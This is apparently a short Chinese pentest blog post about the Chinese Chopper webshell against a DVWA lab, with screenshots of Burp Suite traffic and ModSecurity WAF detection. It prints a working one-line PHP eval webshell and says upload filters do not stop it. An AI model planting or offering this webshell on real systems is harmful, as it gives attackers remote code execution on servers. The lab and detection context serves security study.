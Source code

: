 ```yaml
---
layout: post
title: "针对猜到的部分使用"
categories: pentest
tags: pentest caidao
author: zhangxx
---
```


{:toc}



## 菜刀利用
上传一句话木马 a.php 文件， 事实上非法上传有限制文件后缀，请求内容类型都不能防止非法上传。禁止00阻断文件进行上传也不行。后面描述高级WAF的防护。

```php
<?php @eval($_POST['card']);?>
```
- 其他的asp， jsp 也有 但是不加赘述了。

## 菜刀获取后的显示
![](https://raw.githubusercontent.com/the-champions-of-capua/staticfiles/master/caidao.png)

## burpsuit 监控菜刀的请求
![](https://raw.githubusercontent.com/the-champions-of-capua/staticfiles/master/caidao_monitor.png)

## 靶场DVWA的后台请求;单一的; 实际上部署了WAF可以进行过滤。
![](https://raw.githubusercontent.com/the-champions-of-capua/staticfiles/master/caidao_access.png)

## WAF / modsecurity引擎核心规则边界匹配过滤
![](https://raw.githubusercontent.com/the-champions-of-capua/staticfiles/master/waf_dettect.png)